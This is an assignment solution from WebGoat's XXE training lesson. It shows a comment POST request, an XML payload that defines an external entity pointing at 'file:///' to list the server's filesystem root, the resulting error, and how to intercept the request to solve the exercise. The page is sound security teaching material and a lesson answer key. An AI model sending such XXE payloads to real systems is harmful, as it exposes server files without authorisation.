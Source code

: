 === Assignment solution

The goal of the exercise is to list the root of the file system. If we first try a normal post we see the following request:

[source, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?><comment><text>This is my first comment, nice picture</text></comment>
----

The web page is making a xhr request to post a xml message, after that the comment is displayed in the comment section. Now let's try change the request a bit as shown in the previous section:

[source, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
----

So instead of including a specific file we make a reference to the root of the filesystem with `file:///`. If we just copy and paste this in the comment text box you will get an error in the response body

[source,json]
----
{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : "...javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,44]\\nMessage: The processing instruction target matching \\\"[xX][mM][lL]\\\" is not allowed.]"
  "assignment" : "SimpleXXE",
  "attemptWasMade" : true
}
----

This is due to the fact that the JavaScript is taking the input and creates the following message:

[source%linenums, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?>
<comment>
  <text>
    <?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
  </text>
</comment>
----
Line 7 contains the input entered in text box if we would use the comment form.

To solve the lesson you have to intercept the complete the outgoing request and replace the complete body with the solution. See our lessons about intercepting HTTP traffic.